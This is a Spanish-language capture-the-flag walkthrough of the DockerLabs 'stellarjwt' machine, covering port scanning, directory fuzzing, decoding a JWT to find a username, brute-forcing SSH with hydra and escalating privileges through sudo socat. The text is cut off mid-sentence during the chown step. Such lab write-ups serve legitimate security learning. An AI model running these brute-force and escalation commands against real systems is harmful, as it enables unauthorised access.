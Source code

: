 Maquina: stallarjwt
Nivel: Facil
Proposito:
Objetivo:
Imagenes/Logo.png
Primero se descarga la maquina .zip vulnerable de la pagina dockerlab y lo descompremi con el comando unzip stallarjwt.zip y lo despliego con el comando: sudo bash auto_deploy.sh stellarjwt.tar
Imagenes/Capturas.png
Se procede a confirmar si tenemos activa la maquina vulnerable con un ping -c1 172.17.0.2
Imagesnes/Capturas_1.png
Con la herramienta de nmap buscaremos los puertos abiertos: sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt y encuento el puerto 22 SSH y el 80 http una posible pagina web
Imagesnes/Capturas_2.png
Con mi scrito perseonalizable extraigo los puetor importantes extractPorts allPorts.txt y con la herramienta de namp intento buscar mas informacion como versiones de los servicios que estan corriendo en los puertos
Imagesnes/Capturas_3.png
Al entrar a la pagina web no encontre informaciòn para poder atacar o alguna vulnerabilidad asi que procedo a hacer fuzzing en busca de mas informaciòn
Imagesnes/Capturas_4.png
Use la herramienta de gobuster con el comando gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
y encontre:
/index.html 
/universe 
Imagesnes/Capturas_5.png
El index/htmll es la pagina principal
EL /universe: http://172.17.0.2/universe/ nos muestra una imagen
Imagesnes/Capturas_6.png
Descargue la imagen con: wget http://172.17.0.2/universe/universe.jpg y revise su metada con: exiftool universe.jpg pero no encontre nada importtante.
Imagesnes/Capturas_7.png
Al reviar el codigo fuente de la pagina pude notar un comentario diferente que no parecia un hash busque que significaba el nombre de la maquina y me aparecio que es una API y al investigar con chatgtp pude saber que parece ser un JSON Web Token (JWT)
Imagesnes/Capturas_8.png
Use un Encode: https://jwt.io/ que me dio el usuario: neptuno
Imagesnes/Capturas_9.png
EN la pagina pregunata ¿Qué astrónomo alemán descubrió Neptuno? Johann Gottfried Galle
Con esta informaciòn puedo intentar saber las credenciales de SSH
Cre con nano contraseña.txt las posibles contraseñas que puede ser el nombre de Johann Gottfried Galle ya que copie y pegue verificar si no hay espacios con el comando: cat -A contraseña.txt y utilice hydra -l neptuno -P contraseña.txt ssh://172.17.0.2 -t20 y me mostro las credenciales [22][ssh] host: 172.17.0.2   login: neptuno   password: Gottfried
Imagesnes/Capturas_10.png
Con las credenciales se gano acceso al servico de SSH y se procede a buscar una forma de escalar privilegios
Imagesnes/Capturas_11.png
Con el comando ls -la encontre un .txt con la contraseña de nasa: Eisenhower y denstro de este usuario con el comando sudo -l encontre que se puede escalar con: (elite) NOPASSWD: /usr/bin/socat  esta vulnerabilida la use con el comando:sudo -u elite /usr/bin/socat stdin exec:/bin/bash y pude comvertirmer en elite, ahora con sudo -l me muestra que pueda escalar con (root) NOPASSWD: /usr/bin/chown con el comando: 
